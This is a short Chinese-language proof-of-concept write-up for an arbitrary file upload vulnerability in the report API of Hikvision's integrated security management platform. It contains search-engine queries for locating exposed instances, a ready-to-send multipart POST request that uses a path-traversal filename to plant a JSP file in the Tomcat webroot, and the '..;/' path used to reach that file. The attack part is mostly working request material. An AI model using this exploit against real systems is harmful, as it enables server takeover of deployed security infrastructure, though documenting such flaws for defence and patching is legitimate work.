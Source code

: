 # HIKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](./images/202208241341481.png)

```
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![image-20230828163755020](images/image-20230828163755020.png)

```
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![image-20230828163809686](images/image-20230828163809686.png)

构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163835117](images/image-20230828163835117.png)

```
/portal/ui/login/..;/..;/new.jsp
```

![image-20230828163848482](images/image-20230828163848482.png)